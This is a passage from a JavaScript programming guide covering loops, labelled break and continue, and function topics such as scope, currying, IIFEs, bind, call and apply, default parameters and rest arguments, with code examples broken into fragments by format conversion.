(

object.

hasOwnProperty

(

key

)

)

{

console.

log

(

\'object.\'

\+

key

\+

\', \'

\+

object

\[

key

\]

)

;

}

}

Expected output:

object.b, bar object.c, baz

## Section 18.4: \"while\" Loops

**Standard While Loop**
>
A standard while loop will execute until the condition given is false:

**var**

i

=

0

;

while

(

i

\<

100

)

{

console.

log

(

i

)

;

i

++

;

}

Expected output:

0

1

\...

99

**Decremented loop**

**var**

i

=

100

;

while

(

i

\>

0

)

{

console.

log

(

i

)

;

i

\

;

*/\* equivalent to i=i-1 \*/*

}

Expected output:
>
100
>
99
>
98
>
\...
>
1
>
**Do\...while Loop**
>
A do\...while loop will always execute at least once, regardless of
whether the condition is true or false:

**var**

i

=

101

;

**do**

{

console.

log

(

i

)

;

}

while

(

i

\<

100

)

;

Expected output:

101

## Section 18.5: \"continue\" a loop

**Continuing a \"for\" Loop**

  
  ++
  

  

When you put the **continue** keyword in a for loop, execution jumps
to the update expression (i in the example):

**for**

(

**var**

i

=

0

;

i

\<

3

;

i

++

)

{

**if**

(

i

===

1

)

{

**continue**

;

}

console.

log

(

i

)

;

}

Expected output:
>
0
>
2

**Continuing a While Loop**

When you

**continue**

in a while loop, execution jumps to the condition (

i

\<

3

in the example):

**var**

i

=

0

;

while

(

i

\<

3

)

{

**if**

(

i

===

1

)

{

i

=

2

;

**continue**

;

}

console.

log

(

i

)

;

i

++

;

}

Expected output:
>
0
>
2

## Section 18.6: Break specific nested loops

We can name our loops and break the specific one when necessary.

outerloop

:

**for**

(

**var**

i

=

0

;

i

\<

3

;

i

++

)

{

innerloop

:

**for**

(

**var**

j

=

0

;

j

\<

3

;

j

++

)

{

console.

log

(

i

)

;

console.

log

(

j

)

;

**if**

(

j

==

1

)

{

**break**

outerloop

;

}

}

}

Output:

0

0

0

1

## Section 18.7: \"do \... while\" loop

**var**

availableName

;

**do**

{

availableName

=

getRandomName

(

)

;

}

while

(

isNameUsed

(

name

)

)

;

  
  **do** while
  

  

A loop is guaranteed to run at least once as it\'s condition is only
checked at the end of an iteration. A traditional while loop may run
zero or more times as its condition is checked at the beginning of an
iteration.

## Section 18.8: Break and continue labels

Break and continue statements can be followed by an optional label
which works like some kind of a goto statement, resumes execution from
the label referenced position

**for**

(

**var**

i

=

0

;

i

\<

5

;

i

++

)

{

nextLoop2Iteration

:

**for**

(

**var**

j

=

0

;

j

\<

5

;

j

++

)

{

**if**

(

i

==

j

)

**break**

nextLoop2Iteration

;

console.

log

(

i

,

j

)

;

}

}

***i=0 j=0 skips rest of j values***

1

0

***i=1 j=1 skips rest of j values***

2

0

2

1

***i=2 j=2 skips rest of j values***

0

3

1

3

3

2

***i=3 j=3 skips rest of j values***

4

0

4

1

4

2

4

3

***i=4 j=4 does not log and loops are done***

# Chapter 19: Functions

Functions in JavaScript provide organized, reusable code to perform a
set of actions. Functions simplify the coding process, prevent
redundant logic, and make code easier to follow. This topic describes
the declaration and utilization of functions, arguments, parameters,
return statements and scope in JavaScript.

## Section 19.1: Function Scoping

When you define a function, it creates a *scope*.
>
Everything defined within the function is not accessible by code
outside the function. Only code within this scope can see the entities
defined inside the scope.

**function**

foo

(

)

{

**var**

a

=

\'hello\'

;

console.

log

(

a

)

;

*// =\\'hello\'*

}

console.

log

(

a

)

;

*// reference error*

Nested functions are possible in JavaScript and the same rules apply.

**function**

foo

(

)

{

**var**

a

=

\'hello\'

;

**function**

bar

(

)

{

**var**

b

=

\'world\'

;

console.

log

(

a

)

;

*// =\\'hello\'*

console.

log

(

b

)

;

*// =\\'world\'*

}

console.

log

(

a

)

;

*// =\\'hello\'*

console.

log

(

b

)

;

*// reference error*

}

console.

log

(

a

)

;

*// reference error*

console.

log

(

b

)

;

*// reference error*

When JavaScript tries to resolve a reference or variable, it starts
looking for it in the current scope. If it cannot find that
declaration in the current scope, it climbs up one scope to look for
it. This process repeats until the declaration has been found. If the
JavaScript parser reaches the global scope and still cannot find the
reference, a reference error will be thrown.

**var**

a

=

\'hello\'

;

**function**

foo

(

)

{

**var**

b

=

\'world\'

;

**function**

bar

(

)

{

**var**

c

=

\'!!\'

;

console.

log

(

a

)

;

*// =\\'hello\'*

console.

log

(

b

)

;

*// =\\'world\'*

console.

log

(

c

)

;

*// =\\'!!\'*

console.

log

(

d

)

;

*// reference error*

}

}

This climbing behavior can also mean that one reference may \"shadow\"
over a similarly named reference in the outer scope since it gets seen
first.

**var**

a

=

\'hello\'

;

**function**

foo

(

)

{

**var**

a

=

\'world\'

;

**function**

bar

(

)

{

console.

log

(

a

)

;

*// =\\'world\'*

}

}

Version ≥ 6

The way JavaScript resolves scoping also applies to the **const**
keyword. Declaring a variable with the **const** keyword implies that
you are not allowed to reassign the value, but declaring it in a
function will create a new scope and with that a new variable.

**function**

foo

(

)

{

**const**

a

=

**true**

;

**function**

bar

(

)

{

**const**

a

=

**false**

;

*// different variable*

console.

log

(

a

)

;

*// false*

}

**const**

a

=

**false**

;

*// SyntaxError*

a

=

**false**

;

*// TypeError*

console.

log

(

a

)

;

*// true*

}

However, functions are not the only blocks that create a scope (if you
are using **let** or **const**). **let** and **const** declarations
have a scope of the nearest block statement. See here for a more
detailed description.

## Section 19.2: Currying

[Currying](https://en.wikipedia.org/wiki/Currying) is the
transformation of a function of n arity or arguments into a sequence
of n functions taking only one argument.
>
Use cases: When the values of some arguments are available before
others, you can use currying to decompose a function into a series of
functions that complete the work in stages, as each value arrives.
This can be useful:
>
When the value of an argument almost never changes (e.g., a conversion
factor), but you need to maintain the flexibility of setting that
value (rather than hard-coding it as a constant).
>
When the result of a curried function is useful before the other
curried functions have run. To validate the arrival of the functions
in a specific sequence.
>
For example, the volume of a rectangular prism can be explained by a
function of three factors: length (l), width (w), and height (h):

**var**

prism

=

**function**

(

l

,

w

,

h

)

{

**return**

l

\*

w

\*

h

;

}

A curried version of this function would look like:

**function**

prism

(

l

)

{

**return**

**function**

(

w

)

{

**return**

**function**

(

h

)

{

**return**

l

\*

w

\*

h

;

}

}

}

Version ≥ 6

*// alternatively, with concise ECMAScript 6+ syntax:*

**var**

prism

=

l

=\>

w

=\>

h

=\>

l

\*

w

\*

h

;

  
  prism
  

  

You can call these sequence of functions with (2)(3)(5), which should
evaluate to 30.

  
  **var** a                        =     prism
  - - -

  

  
  prism
  

  

Without some extra machinery (like with libraries), currying is of
limited syntactical flexibility in JavaScript (ES 5/6) due to the lack
of placeholder values; thus, while you can use (2)(3) to create a
[partially applied
function](https://en.wikipedia.org/wiki/Partial_application), you
cannot use ()(3)(5).

## Section 19.3: Immediately Invoked Function Expressions

Sometimes you don\'t want to have your function accessible/stored as a
variable. You can create an Immediately Invoked Function Expression
(IIFE for short). These are essentially *self-executing anonymous
functions*. They have access to the surrounding scope, but the
function itself and any internal variables will be inaccessible from
outside. An important thing to note about IIFE is that even if you
name your function, IIFE are not hoisted like standard functions are
and cannot be called by the function name they are declared with.

(

**function**

(

)

{

alert

(

\"I\'ve run - but can\'t be run again because I\'m immediately invoked
at runtime,

leaving behind only the result I generate\"

)

;

}

(

)

)

;

This is another way to write IIFE. Notice that the closing parenthesis
before the semicolon was moved and placed right after the closing
curly bracket:

(

**function**

(

)

{

alert

(

\"This is IIFE too.\"

)

;

}

)

(

)

;

You can easily pass parameters into an IIFE:

(

**function**

(

message

)

{

alert

(

message

)

;

}

(

\"Hello World!\"

)

)

;

Additionally, you can return values to the surrounding scope:

**var**

example

=

(

**function**

(

)

{

**return**

42

;

}

(

)

)

;

console.

log

(

example

)

;

*// =\42*

If required it is possible to name an IIFE. While less often seen,
this pattern has several advantages, such as providing a reference
which can be used for a recursion and can make debugging simpler as
the name is included in the callstack.

(

**function**

namedIIFE

(

)

{

**throw**

error

;

*// We can now see the error thrown in \'namedIIFE()\'*

}

(

)

)

;

While wrapping a function in parenthesis is the most common way to
denote to the JavaScript parser to expect an expression, in places
where an expression is already expected, the notation can be made more
concise:

**var**

a

=

**function**

(

)

{

**return**

42

}

(

)

;

console.

log

(

a

)

*// =\42*

Arrow version of immediately invoked function:

Version ≥ 6

(

(

)

=\>

console.

log

(

\"Hello!\"

)

)

(

)

;

*// =\Hello!*

## Section 19.4: Named Functions

Functions can either be named or unnamed (anonymous functions):

**var**

namedSum

=

**function**

sum

(

a

,

b

)

{

*// named*

**return**

a

\+

b

;

}

**var**

anonSum

=

**function**

(

a

,

b

)

{

*// anonymous*

**return**

a

\+

b

;

}

namedSum

(

1

,

3

)

;

anonSum

(

1

,

3

)

;

4

4

But their names are private to their own scope:

**var**

sumTwoNumbers

=

**function**

sum

(

a

,

b

)

{

**return**

a

\+

b

;

}

sum

(

1

,

3

)

;

Uncaught ReferenceError: sum is not defined

Named functions differ from the anonymous functions in multiple
scenarios:
>
When you are debugging, the name of the function will appear in the
error/stack trace
>
Named functions are hoisted while anonymous functions are not
>
Named functions and anonymous functions behave differently when
handling recursion
>
Depending on ECMAScript version, named and anonymous functions may
treat the function name property differently
>
**Named functions are hoisted**
>
When using an anonymous function, the function can only be called
after the line of declaration, whereas a named function can be called
before declaration. Consider

foo

(

)

;

**var**

foo

=

**function**

(

)

{

*// using an anonymous function*

console.

log

(

\'bar\'

)

;

}

Uncaught TypeError: foo is not a function

foo

(

)

;

**function**

foo

(

)

{

*// using a named function*

console.

log

(

\'bar\'

)

;

}

bar

**Named Functions in a recursive scenario**

A recursive function can be defined as:

**var**

say

=

**function**

(

times

)

{

**if**

(

times

\>

0

)

{

console.

log

(

\'Hello!\'

)

;

say

(

times

\-

1

)

;

}

}

*//you could call \'say\' directly,*

*//but this way just illustrates the example*

**var**

sayHelloTimes

=

say

;

sayHelloTimes

(

2

)

;

Hello!

Hello!

What if somewhere in your code the original function binding gets
redefined?

**var**

say

=

**function**

(

times

)

{

**if**

(

times

\>

0

)

{

console.

log

(

\'Hello!\'

)

;

say

(

times

\-

1

)

;

}

}

**var**

sayHelloTimes

=

say

;

say

=

\"oops\"

;

sayHelloTimes

(

2

)

;

Hello!
>
Uncaught TypeError: say is not a function

This can be solved using a named function

*// The outer variable can even have the same name as the function*

*// as they are contained in different scopes*

**var**

say

=

**function**

say

(

times

)

{

**if**

(

times

\>

0

)

{

console.

log

(

\'Hello!\'

)

;

*// this time, \'say\' doesn\'t use the outer variable*

*// it uses the named function*

say

(

times

\-

1

)

;

}

}

**var**

sayHelloTimes

=

say

;

say

=

\"oops\"

;

sayHelloTimes

(

2

)

;

Hello!

Hello!

And as bonus, the named function can\'t be set to **undefined**, even
from inside:

**var**

say

=

**function**

say

(

times

)

{

*// this does nothing*

say

=

**undefined**

;

**if**

(

times

\>

0

)

{

console.

log

(

\'Hello!\'

)

;

*// this time, \'say\' doesn\'t use the outer variable*

*// it\'s using the named function*

say

(

times

\-

1

)

;

}

}

**var**

sayHelloTimes

=

say

;

say

=

\"oops\"

;

sayHelloTimes

(

2

)

;

Hello!

Hello!

**The name property of functions**
>
Before ES6, named functions had their name properties set to their
function names, and anonymous functions had their name properties set
to the empty string.

Version ≤ 5

**var**

foo

=

**function**

(

)

{

}

console.

log

(

foo.

name

)

;

*// outputs \'\'*

**function**

foo

(

)

{

}

console.

log

(

foo.

name

)

;

*// outputs \'foo\'*

Post ES6, named and unnamed functions both set their name properties:

Version ≥ 6

**var**

foo

=

**function**

(

)

{

}

console.

log

(

foo.

name

)

;

*// outputs \'foo\'*

**function**

foo

(

)

{

}

console.

log

(

foo.

name

)

;

*// outputs \'foo\'*

**var**

foo

=

**function**

bar

(

)

{

}

console.

log

(

foo.

name

)

;

*// outputs \'bar\'*

## Section 19.5: Binding \`this\` and arguments

Version ≥ 5.1

When you take a reference to a method (a property which is a function)
in JavaScript, it usually doesn\'t remember the object it was
originally attached to. If the method needs to refer to that object as
**this** it won\'t be able to, and calling it will probably cause a
crash.

  
  bind
  

  

You can use the .() method on a function to create a wrapper that
includes the value of **this** and any number of leading arguments.

**var**

monitor

=

{

threshold

:

5

,

check

:

**function**

(

value

)

{

**if**

(

value

\>

**this**

.

threshold

)

{

**this**

.

display

(

\"Value is too high!\"

)

;

}

}

,

display

(

message

)

{

alert

(

message

)

;

}

}

;

monitor.

check

(

7

)

;

*// The value of \`this\` is implied by the method call syntax.*

**var**

badCheck

=

monitor.

check

;

badCheck

(

15

)

;

*// The value of \`this\` is window object and this.threshold is
undefined, so value \>*

*this.threshold is false*

**var**

check

=

monitor.

check

.

bind

(

monitor

)

;

check

(

15

)

;

*// This value of \`this\` was explicitly bound, the function works.*

**var**

check8

=

monitor.

check

.

bind

(

monitor

,

8

)

;

check8

(

)

;

*// We also bound the argument to \`8\` here. It can\'t be
re-specified.*

  
  call
  

  

When not in strict mode, a function uses the global object (window in
the browser) as **this**, unless the function is called as a method,
bound, or called with the method . syntax.

window.

x

=

12

;

**function**

example

(

)

{

**return**

**this**

.

x

;

}

console.

log

(

example

(

)

)

;

*// 12*

In strict mode

**this**

is

**undefined**

by default

window.

x

=

12

;

**function**

example

(

)

{

\"use strict\"

;

**return**

**this**

.

x

;

}

console.

log

(

example

(

)

)

;

*// Uncaught TypeError: Cannot read property \'x\' of undefined(*

...

*)*

Version ≥ 7

**Bind Operator**
>
The double colon **bind operator** can be used as a shortened syntax
for the concept explained above:

**var**

log

=

console.

log

.

bind

(

console

)

;

*// long version*

**const**

log

=

::

console.

log

;

*// short version*

foo.

bar

.

call

(

foo

)

;

*// long version*

foo

::

bar

(

)

;

*// short version*

foo.

bar

.

call

(

foo

,

arg1

,

arg2

,

arg3

)

;

*// long version*

foo

::

bar

(

arg1

,

arg2

,

arg3

)

;

*// short version*

foo.

bar

.

apply

(

foo

,

args

)

;

*// long version*

foo

::

bar

(

\...

args

)

;

*// short version*

This syntax allows you to write normally, without worrying about
binding **this** everywhere.

**Binding console functions to variables var** log =
console.log.bind(console); **Usage:**

log

(

\'one\'

,

\'2\'

,

3

,

\[

4

\]

,

{

5

:

5

}

)

;

**Output:**

one

2

3

\[

4

\]

Object

{

5

:

5

}

**Why would you do that?**
>
One use case can be when you have custom logger and you want to decide
on runtime which one to use.

**var**

logger

=

require

(

\'appLogger\'

)

;

**var**

log

=

logToServer

?

logger.

log

:

console.

log

.

bind

(

console

)

;

## Section 19.6: Functions with an Unknown Number of Arguments (variadic functions)

To create a function which accepts an undetermined number of
arguments, there are two methods depending on your environment.

Version ≤ 5

Whenever a function is called, it has an Array-like
[arguments](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/arguments)
object in its scope, containing all the arguments passed to the
function. Indexing into or iterating over this will give access to the
arguments, for example

**function**

logSomeThings

(

)

{

**for**

(

**var**

i

=

0

;

i

\<

arguments.

length

;

++

i

)

{

console.

log

(

arguments

\[

i

\]

)

;

}

}

logSomeThings

(

\'hello\'

,

\'world\'

)

;

*// logs \"hello\"*

*// logs \"world\"*

Note that you can convert arguments to an actual Array if need-be;
see: Converting Array-like Objects to Arrays

Version ≥ 6

From ES6, the function can be declared with its last parameter using
the [rest
operator](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Functions/rest_parameters)
(\...). This creates an Array which holds the arguments from that
point onwards

**function**

personLogsSomeThings

(

person

,

\...

msg

)

{

msg.

forEach

(

arg

=\>

{

console.

log

(

person

,

\'says\'

,

arg

)

;

}

)

;

}

personLogsSomeThings

(

\'John\'

,

\'hello\'

,

\'world\'

)

;

*// logs \"John says hello\"*

*// logs \"John says world\"*

Functions can also be called with similar way, the [spread
syntax](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Operators/Spread_operator)

**const**

logArguments

=

(

\...

args

)

=\>

console.

log

(

args

)

**const**

list

=

\[

1

,

2

,

3

\]

logArguments

(

\'a\'

,

\'b\'

,

\'c\'

,

\...

list

)

*// output: Array \[ \"a\", \"b\", \"c\", 1, 2, 3 \]*

This syntax can be used to insert arbitrary number of arguments to any
position, and can be used with any iterable(apply accepts only
array-like objects).

**const**

logArguments

=

(

\...

args

)

=\>

console.

log

(

args

)

**function**

\*

generateNumbers

(

)

{

yield

6

yield

5

yield

4

}

logArguments

(

\'a\'

,

\...

generateNumbers

(

)

,

\...

\'pqr\'

,

\'b\'

)

*// output: Array \[ \"a\", 6, 5, 4, \"p\", \"q\", \"r\", \"b\" \]*

## Section 19.7: Anonymous Function

**Defining an Anonymous Function**
>
When a function is defined, you often give it a name and then invoke
it using that name, like so:

foo

(

)

;

**function**

foo

(

)

{

*// \...*

}

When you define a function this way, the JavaScript runtime stores
your function in memory and then creates a reference to that function,
using the name you\'ve assigned it. That name is then accessible
within the current scope. This can be a very convenient way to create
a function, but JavaScript does not require you to assign a name to a
function. The following is also perfectly legal:

**function**

(

)

{

*// \...*

}

When a function is defined without a name, it\'s known as an anonymous
function. The function is stored in memory, but the runtime doesn\'t
automatically create a reference to it for you. At first glance, it
may appear as if such a thing would have no use, but there are several
scenarios where anonymous functions are very convenient.
>
**Assigning an Anonymous Function to a Variable**
>
A very common use of anonymous functions is to assign them to a
variable:

**var**

foo

=

**function**

(

)

{

*/\*\...\*/*

}

;

foo

(

)

;

This use of anonymous functions is covered in more detail in Functions
as a variable
>
**Supplying an Anonymous Function as a Parameter to Another Function**
>
Some functions may accept a reference to a function as a parameter.
These are sometimes referred to as
>
\"dependency injections\" or \"callbacks\", because it allows the
function your calling to \"call back\" to your code, giving you an
opportunity to change the way the called function behaves. For
example, the Array object\'s map function allows you to iterate over
each element of an array, then build a new array by applying a
transform function to each element.

**var**

nums

=

\[

0

,

1

,

2

\]

;

**var**

doubledNums

=

nums.

map

(

**function**

(

element

)

{

**return**

element

\*

2

;

}

)

;

*// \[0,2,4\]*

It would be tedious, sloppy and unnecessary to create a named
function, which would clutter your scope with a function only needed
in this one place and break the natural flow and reading of your code
(a colleague would have to leave this code to find your function to
understand what\'s going on).
>
**Returning an Anonymous Function From Another Function**
>
Sometimes it\'s useful to return a function as the result of another
function. For example:

**var**

hash

=

getHashFunction

(

\'sha1\'

)

;

**var**

hashValue

=

hash

(

\'Secret Value\'

)

;

**function**

getHashFunction

(

algorithm

)

{

**if**

(

algorithm

===

\'sha1\'

)

**return**

**function**

(

value

)

{

*/\*\...\*/*

}

;

**else**

**if**

(

algorithm

===

\'md5\'

)

**return**

**function**

(

value

)

{

*/\*\...\*/*

}

;

}

**Immediately Invoking an Anonymous Function**

  
  **\<script**
  

  

Unlike many other languages, scoping in JavaScript is function-level,
not block-level. (See Function Scoping ). In some cases, however,
it\'s necessary to create a new scope. For example, it\'s common to
create a new scope when adding code via a **\>** tag, rather than
allowing variable names to be defined in the global scope (which runs
the risk of other scripts colliding with your variable names). A
common method to handle this situation is to define a new anonymous
function and then immediately invoke it, safely hiding you variables
within the scope of the anonymous function and without making your
code accessible to third-parties via a leaked function name. For
example:

\<!\

My Script

\

**\>**

**\<**

**script**

**\>**

function initialize

(

)

{

// foo is safely hidden within initialize, but\...

var foo =

\'\'

;

}

// \...my initialize function is now accessible from global scope.

// There is a risk someone could call it again, probably by accident.

initialize

(

)

;

**\<**

**/script**

**\>**

**\<**

**script**

**\>**

// Using an anonymous function, and then immediately

// invoking it, hides my foo variable and guarantees

// no one else can call it a second time.

(

function

(

)

{

var foo =

\'\'

;

}

(

)

)

// \<\-\ the parentheses invokes the function immediately

**\<**

**/script**

**\>**

**Self-Referential Anonymous Functions**
>
Sometimes it\'s useful for an anonymous function to be able to refer
to itself. For example, the function may need to recursively call
itself or add properties to itself. If the function is anonymous,
though, this can be very difficult as it requires knowledge of the
variable that the function has been assigned to. This is the less than
ideal solution:

**var**

foo

=

**function**

(

callAgain

)

{

console.

log

(

\'Whassup?\'

)

;

*// Less than ideal\... we\'re dependent on a variable reference\...*

**if**

(

callAgain

===

**true**

)

foo

(

**false**

)

;

}

;

foo

(

**true**

)

;

*// Console Output:*

*// Whassup?*

*// Whassup?*

*// Assign bar to the original function, and assign foo to another
function.*

**var**

bar

=

foo

;

foo

=

**function**

(

)

{

console.

log

(

\'Bad.\'

)

}

;

bar

(

**true**

)

;

*// Console Output:*

*// Whassup?*

*// Bad.*

The intent here was for the anonymous function to recursively call
itself, but when the value of foo changes, you end up with a
potentially difficult to trace bug.
>
Instead, we can give the anonymous function a reference to itself by
giving it a private name, like so:

**var**

foo

=

**function**

myself

(

callAgain

)

{

console.

log

(

\'Whassup?\'

)

;

*// Less than ideal\... we\'re dependent on a variable reference\...*

**if**

(

callAgain

===

**true**

)

myself

(

**false**

)

;

}

;

foo

(

**true**

)

;

*// Console Output:*

*// Whassup?*

*// Whassup?*

*// Assign bar to the original function, and assign foo to another
function.*

**var**

bar

=

foo

;

foo

=

**function**

(

)

{

console.

log

(

\'Bad.\'

)

}

;

bar

(

**true**

)

;

*// Console Output:*

*// Whassup?*

*// Whassup?*

Note that the function name is scoped to itself. The name has not
leaked into the outer scope:

myself

(

**false**

)

;

*// ReferenceError: myself is not defined*

This technique is especially useful when dealing with recursive
anonymous functions as callback parameters:

Version ≥ 5

*// Calculate the Fibonacci value for each number in an array:*

**var**

fib

=

**false**

,

result

=

\[

1

,

2

,

3

,

4

,

5

,

6

,

7

,

8

\]

.

map

(

**function**

fib

(

n

)

{

**return**

(

n

\<=

2

)

?

1

:

fib

(

n

\-

1

)

\+

fib

(

n

\-

2

)

;

}

)

;

*// result = \[1, 1, 2, 3, 5, 8, 13, 21\]*

*// fib = false (the anonymous function name did not overwrite our fib
variable)*

## Section 19.8: Default parameters

Before ECMAScript 2015 (ES6), a parameter\'s default value could be
assigned in the following way:

**function**

printMsg

(

msg

)

{

msg = **typeof** msg !== \'undefined\' ? *// if a value was provided*
msg : *// then, use that value in the reassignment*
>
\'Default value for msg.\'; *// else, assign a default value*
console.log(msg); }
>
ES6 provided a new syntax where the condition and reassignment
depicted above is no longer necessary:

Version ≥ 6

**function**

printMsg

(

msg

=

\'Default value for msg.\'

)

{

console.

log

(

msg

)

;

}

printMsg

(

)

;

*// -\\"Default value for msg.\"*

printMsg

(

**undefined**

)

;

*// -\\"Default value for msg.\"*

printMsg

(

\'Now my msg in different!\'

)

;

*// -\\"Now my msg in different!\"*

This also shows that if a parameter is missing when the function is
invoked, its value is kept as **undefined**, as it can be confirmed by
explicitly providing it in the following example (using an arrow
function):

Version ≥ 6

**let**

param_check

=

(

p

=

\'str\'

)

=\>

console.

log

(

p

\+

\' is of type: \'

\+

**typeof**

p

)

;

param_check

(

)

;

*// -\\"str is of type: string\"*

param_check

(

**undefined**

)

;

*// -\\"str is of type: string\"*

param_check

(

1

)

;

*// -\\"1 is of type: number\"*

param_check

(

**this**

)

;

*// -\\"\[object Window\] is of type: object\"*

**Functions/variables as default values and reusing parameters**

  
  callback                          =   **function**
    

  

The default parameters\' values are not restricted to numbers, strings
or simple objects. A function can also be set as the default value
(){}:

Version ≥ 6

**function**

foo

(

callback

=

**function**

(

)

{

console.

log

(

\'default\'

)

;

}

)

{

callback

(

)

;

}

foo

(

**function**

(

)

{

console.

log

(

\'custom\'

)

;

}

)

;

*// custom*

foo

(

)

;

*//default*

There are certain characteristics of the operations that can be
performed through default values:
>
A previously declared parameter can be reused as a default value for
the upcoming parameters\' values.
>
Inline operations are allowed when assigning a default value to a
parameter.
>
Variables existing in the same scope of the function being declared
can be used in its default values. Functions can be invoked in order
to provide their return value into a default value.

Version ≥ 6 **let** zero = 0; **function** multiply(x) { **return** x \*
2;}

**function** add(a = 1 + zero, b = a, c = b + a, d = multiply(c)) {
console.log((a + b + c), d);

}

add

(

1

)

;

*// 4, 4*

add

(

3

)

;

*// 12, 12*

add

(

2

,

7

)

;

*// 18, 18*

add

(

1

,

2

,

5

)

;

*// 8, 10*

add

(

1

,

2

,

5

,

10

)

;

*// 8, 20*

**Reusing the function\'s return value in a new invocation\'s default
value:** Version ≥ 6

**let**

array

=

\[

1

\]

;

*// meaningless: this will be overshadowed in the function\'s scope*

**function**

add

(

value

,

array

=

\[

\]

)

{

array.

push

(

value

)

;

**return**

array

;

}

add

(

5

)

;

*// \[5\]*

add

(

6

)

;

*// \[6\], not \[5, 6\]*

add

(

6

,

add

(

5

)

)

;

*// \[5, 6\]*

**arguments value and length when lacking parameters in invocation**
>
The arguments array object only retains the parameters whose values
are not default, i.e. those that are explicitly provided when the
function is invoked:

Version ≥ 6

**function**

foo

(

a

=

1

,

b

=

a

\+

1

)

{

console.

info

(

arguments.

length

,

arguments

)

;

console.

log

(

a

,

b

)

;

}

foo

(

)

;

*// info: 0 \>\\[\] \| log: 1, 2*

foo

(

4

)

;

*// info: 1 \>\\[4\] \| log: 4, 5*

foo

(

5

,

6

)

;

*// info: 2 \>\\[5, 6\] \| log: 5, 6*

## Section 19.9: Call and apply

Functions have two built-in methods that allow the programmer to
supply arguments and the **this** variable differently: call and
apply.
>
This is useful, because functions that operate on one object (the
object that they are a property of) can be repurposed to operate on
another, compatible object. Additionally, arguments can be given in
one shot as arrays, similar to the spread (\...) operator in ES6.

**let**

obj

=

{

a

:

1

,

b

:

2

,

**set**

:

**function**

(

a

,

b

)

{

**this**

.

a

=

a

;

**this**

.

b

=

b

;

}

}

;

obj.

**set**

(

3

,

7

)

;

*// normal syntax*

obj.

**set**

.

call

(

obj

,

3

,

7

)

;

*// equivalent to the above*

obj.

**set**

.

apply

(

obj

,

\[

3

,

7

\]

)

;

*// equivalent to the above; note that an array is used*

console.

log

(

obj

)

;

*// prints { a: 3, b: 5 }*

**let**

myObj

=

{

}

;

myObj.

**set**

(

5

,

4

)

;

*// fails; myObj has no \`set\` property*

obj.**set**.call(myObj, 5, 4); *// success; \`this\` in set() is
re-routed to myObj instead of obj* obj.**set**.apply(myObj, \[5, 4\]);
*// same as above; note the array*
>
console.log(myObj); *// prints { a: 3, b: 5 }*

Version ≥ 5

  
  **bind**   **()** in addition to          call     () and        apply
  - -  - -

  

ECMAScript 5 introduced another method called () to explicitly set
**this** value of the function to specific object.

  
  bind
  

  

It behaves quite differently than the other two. The first argument to
() is the **this** value for the new function. All other arguments
represent named parameters that should be permanently set in the new
function.

**function**

showName

(

label

)

{

console.

log

(

label

\+

\":\"

\+

**this**

.

name

)

;

}

**var**

student1

=

{

name

:

\"Ravi\"

}

;

**var**

student2

=

{

name

:

\"Vinod\"

}

;

*// create a function just for student1*

**var**

showNameStudent1

=

showName.

bind

(

student1

)

;

showNameStudent1

(

\"student1\"

)

;

*// outputs \"student1:Ravi\"*

*// create a function just for student2*

**var**

showNameStudent2

=

showName.

bind

(

student2

,

\"student2\"

)

;

showNameStudent2

(

)

;

*// outputs \"student2:Vinod\"*

*// attaching a method to an object doesn\'t change \`this\` value of
that method.*

student2.

sayName

=

showNameStudent1

;

student2.

sayName

(

\"student2\"

)

;

*// outputs \"student2:Ravi\"*

## Section 19.10: Partial Application

Similar to currying, partial application is used to reduce the number
of arguments passed to a function. Unlike currying, the number need
not go down by one.
>
Example:
>
This function \...

**function**

multiplyThenAdd

(

a

,

b

,

c

)

{

**return**

a

\*

b

\+

c

;

}

\... can be used to create another function that will always multiply
by 2 and then add 10 to the passed value;

**function**

reversedMultiplyThenAdd

(

c

,

b

,

a

)

{

**return**

a

\*

b

\+

c

;

}

**function**

factory

(

b

,

c

)

{

**return**

reversedMultiplyThenAdd.

bind

(

**null**

,

c

,

b

)

;

}

**var**

multiplyTwoThenAddTen

=

factory

(

2

,

10

)

;

multiplyTwoThenAddTen

(

10

)

;

*// 30*

The \"application\" part of partial application simply means fixing
parameters of a function.

## Section 19.11: Passing arguments by reference or value

In JavaScript all arguments are passed by value. When a function
assigns a new value to an argument variable, that change will not be
visible to the caller:

**var**

obj

=

{

a

:

2

}

;

**function**

myfunc

(

arg

)

{

arg

=

{

a

:

5

}

;

*// Note the assignment is to the parameter variable itself*

}

myfunc

(

obj

)

;

console.

log

(

obj.

a

)

;

*// 2*

However, changes made to (nested) properties *of* such arguments, will
be visible to the caller:

**var**

obj

=

{

a

:

2

}

;

**function**

myfunc

(

arg

)

{

arg.

a

=

5

;

*// assignment to a property of the argument*

}

myfunc

(

obj

)

;

console.

log

(

obj.

a

)

;

*// 5*

This can be seen as a *call by reference*: although a function cannot
change the caller\'s object by assigning a new value to it, it could
*mutate* the caller\'s object.
>
As primitive valued arguments, like numbers or strings, are immutable,
there is no way for a function to mutate them:

**var**

s

=

\'say\'

;

**function**

myfunc

(

arg

)

{

arg

+=

\' hello\'

;

*// assignment to the parameter variable itself*

}

myfunc

(

s

)

;

console.

log

(

s

)

;

*// \'say\'*

When a function wants to mutate an object passed as argument, but does
not want to actually mutate the caller\'s object, the argument
variable should be reassigned:

Version ≥ 6

**var**

obj

=

{

a

:

2

,

b

:

3

}

;

**function**

myfunc

(

arg

)

{

arg

=

Object

.

assign

(

{

}

,

arg

)

;

*// assignment to argument variable, shallow copy*

arg.

a

=

5

;

}

myfunc

(

obj

)

;

console.

log

(

obj.

a

)

;

*// 2*

As an alternative to in-place mutation of an argument, functions can
create a new value, based on the argument, and return it. The caller
can then assign it, even to the original variable that was passed as
argument:

**var**

a

=

2

;

**function**

myfunc

(

arg

)

{

arg

++

;

**return**

arg

;

}

a

=

myfunc

(

a

)

;

console.

log

(

obj.

a

)

;

*// 3*

## Section 19.12: Function Arguments, \"arguments\" object, rest and spread parameters

Functions can take inputs in form of variables that can be used and
assigned inside their own scope. The following function takes two
numeric values and returns their sum:

**function**

addition

(

argument1

,

argument2

)

{

**return**

argument1

\+

argument2

;

}

console.

log

(

addition

(

2

,

3

)

)

;

*// -\5*

**arguments**

**object**

The arguments object contains all the function\'s parameters that
contain a non-default value. It can also be used even if the
parameters are not explicitly declared:
>
(**function**() { console.log(arguments) })(0,\'str\', \[2,{3}\]) *//
-\\[0, \"str\", Array\[2\]\]* Although when printing arguments the
output resembles an Array, it is in fact an object:

(

**function**

(

)

{

console.

log

(

**typeof**

arguments

)

}

)

(

)

;

*// -\object*

**Rest parameters:**

